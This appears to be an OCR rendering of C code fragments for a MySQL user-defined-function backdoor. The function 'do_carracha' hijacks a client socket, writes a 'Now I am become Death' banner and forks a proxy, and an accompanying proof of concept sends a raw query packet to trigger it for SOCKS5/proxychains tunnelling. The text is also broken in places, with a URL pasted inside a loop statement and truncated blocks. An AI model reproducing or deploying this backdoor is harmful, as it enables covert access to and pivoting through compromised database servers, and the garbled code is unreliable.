 ```c
					write(i, "Now I am become Death\n", strlen("Now I am become Death\n") + 1);
					pid = fork();
					if (pid == 0) {
						proxy(i);
						exit(0);	
					}	
					else {
						close(i);
						return 1;
					}
				} 
		}
		memset(&client_addr, 0, sizeof(client_addr));
	}
 	return fd;
    
}
 
char do_carracha_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
    return(0);
}

```

```c
// PoC to communicate proxychains and SOCKS5 
#include <my_global.h>
#include <mysql.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <fcntl.h>



void proxy_init(int sock){
	fd_set readset;
	struct timeval tv;
	int i, retval, nread, localfd, clientlen, sr, maxfd, select_fd[2];
	char test[1024];
	struct sockaddr_in server, client;
	fprintf(stderr, "[ SERVER BANNER ]\n\n");
	write(sock, "\31\x00\x00\00\x03select do_carracha('a');", 30);

	select_fd[0] = sock;
	while(1) {https://nets.ec/Shellcode/Socket-reuse
		FD_ZERO(&readset);
		FD_SET(select_fd[0], &readset);
		tv.tv_sec = 1;
		tv.tv_usec = 0;
		retval = select(select_fd[0] + 1, &readset, NULL, NULL, &tv);
		if (retval) {
			nread = read(select_fd[0], test, sizeof(test));
			fprintf(stderr, "%s", test);
			if (strstr(test, "Child")) {
				break;
			}
		}
```
